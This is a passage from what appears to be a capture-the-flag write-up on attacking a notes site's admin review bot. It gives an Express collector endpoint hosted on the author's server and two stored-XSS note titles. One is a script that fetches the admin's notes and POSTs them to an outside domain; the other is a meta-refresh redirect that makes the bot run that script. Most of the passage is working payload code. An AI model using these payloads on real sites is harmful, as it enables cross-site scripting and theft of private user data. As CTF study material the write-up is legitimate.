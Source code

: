 ```javascript

app.post('/receive', async (req, res) => {
    try {
        const { payload } = req.body;
        if (typeof payload === 'undefined') {
            return res.status(400).json({ error: 'missing payload' });
        }

        const line = JSON.stringify(payload) + '\n';
        await fs.appendFile(path.join(__dirname, 'out.ndjson'), line, 'utf8');

        return res.status(204).end();
    } catch (error) {
        console.error('Error:', error);
        return res.status(500).json({ error: 'internal_server_error' });
    }
});

// Start the Express server
app.listen(port, () => {
    console.log(`Proxy server listening at http://localhost:${port}`);
});
```

When the bot make a POST request to `/receive` with the body is the admin's notes, the server will write the data to `out.ndjson` then I host it with my hosting server (on cPanel).

Next, in the website I need two notes to achieve my purpose.

First post containing the script that will make the bot send admin's notes:

```
Title: <script>fetch('/api/notes').then(async res => {
    const jsonData = await res.json();

    fetch('https://<YOUR_SERVER_DOMAIN>/receive', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ payload: jsonData })
    });
})</script>

Content: Anything
```

Second post containing a meta tag that will make the bot automatically redirect to `/api/notes/<MY_SCRIPT_NOTE_ID>` since the `/dashboard?reviewNote=<NOTE_ID>` cannot execute script as we tested before.

```
Title: <meta http-equiv="refresh" content="0;url=/api/notes/<SCRIPT_NOTE_ID>">

Content: Anything
```
